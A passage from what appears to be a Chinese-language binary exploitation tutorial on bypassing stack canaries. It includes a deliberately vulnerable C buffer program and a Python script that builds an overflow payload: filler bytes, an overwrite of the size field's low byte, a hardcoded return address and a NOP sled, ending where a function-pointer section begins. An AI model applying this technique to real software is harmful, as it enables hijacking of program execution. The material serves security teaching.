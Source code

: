 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taeYk9pbibPZ7GcMFkubQZibXrZtJjuCQiaG3oCia9aQbqF20T0608NUczEpZX8RPMpt2G0pmDdmkg0WYw/640?wx_fmt=png&from=appmsg "")  
  
宾果，我们的计划成功了。  
  
跳过 Sh1t  
  
并非所有程序都设计为交互式运行。许多程序会从用户那里获取输入，然后直接一次性执行任务。在这种情况下，我们无法泄露金丝雀（无论是使用漏洞还是其他技术），然后利用溢出漏洞劫持程序执行来完成攻击。在这种情况下，我们需要一种创造性的方法一次性突破这种保护。这并不容易，主要取决于目标程序的逻辑及其工作方式。让我们举个例子：  
  
```
#include<stdio.h>#include<stdlib.h>typedefstruct {    char data[64];    int nSize;} Buffer;Buffer buf_new(){    return (Buffer) { 0x00 };}voidbuf_write(Buffer *pBuf, char *cpData, size_t n){    while ( n-- )        pBuf->data[ pBuf->nSize++ ] = *cpData++;}voidbuf_read(Buffer *pBuf){    printf( "%s", pBuf->data );};voidmain(){    Buffer buf = buf_new();    char *cpLine = NULL;    size_t n = 0;    printf( "Data: " );    n = getdelim( (char **)&cpLine, &n, 0x0a, stdin );    if ( ~n ) // Sanity check to avoid calling `buf_write` if `getdelim` failed        buf_write( &buf, cpLine, n );    puts( "Your Data :" );    buf_read( &buf );}
```  
  
  
此示例与上一个示例类似。除了它不是交互式的之外，没有什么新意。它从用户那里读取并将用户的输入打印到屏幕上。  
  
```
┌──(user㉿host)-[~]└─$ gcc -fstack-protector -zexecstack test.c -o test                                                                                                                                                         ┌──(user㉿host)-[~]└─$ ./test                                          Data: Hello Guys, I'm 0xNinjaCyclone.Your Data :Hello Guys, I'm 0xNinjaCyclone.
```  
  
  
重点关注这一行：  
  
```
pBuf->data[ pBuf->nSize++ ] = *cpData++;
```  
  
  
它看起来像一段普通的代码，将数据从一个内存逐字节复制到另一个内存。但事实并非如此，我的朋友。我们可以用一种非常阴险的方式滥用它，在不损坏金丝雀的情况下绕过它。让我进一步解释一下，这样你就能理解我的意思了。它会根据pBuf->nSize值执行缓冲区解引用，将指针指向的内存中的一个字节复制到该位置cpData，然后将这些值加一，以便在下一次迭代中移动下一个字节，并循环执行此操作，直到所有数据都移动完毕。  
  
这个变量告诉程序将数据写入何处，它在我们的控制之下。然而，我们无法有效地完全改变它。我们只能更改最低位字节，因为更改该字节会完全改变我们要写入的位置。这足以突破保护。我们可以让写入操作跳转到直接写入指令指针，而无需顺序写入，从而破坏金丝雀。  
  
```
#!/usr/bin/python3import structwith open("payload", "wb") as f:    f.write( b"A" * 64 ) # Fills the Buffer     f.write( b"\x58" ) # ( (unsigned char *) &Buffer->nSize )[0] ( LSB )    f.write( struct.pack("<Q", 0x7fffffffdd70) ) # Instruction Pointer    f.write( b"\x90" * 0x40 ) # Own Code ( NOPs )
```  
  
  
让我们尝试一下这个漏洞，看看它是否能成功跳过金丝雀。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taeYk9pbibPZ7GcMFkubQZibXrSWSzcDez7TpAib8gdnv05qwa4G7zN6IkQXPw99mwDgkBvY0iaPibGicfdQ/640?wx_fmt=png&from=appmsg "")  
  
如您所见，我们成功击败了金丝雀并覆盖了指令指针，从而使我们能够劫持程序的执行流程。  
  
抢占 Canary/Cookie 保护  
  
绕过此类保护的一种方法是，如果我们能够在金丝雀值验证发生之前以修改指令指针以外的方式劫持程序执行流，那么即使金丝雀值被破坏，我们也可以绕过它。有很多场景允许我们劫持执行流：  
1. 函数指针：如果我们可以控制其中一个函数指针，并且在金丝雀检查发生之前调用它，我们就可以绕过该保护。  
  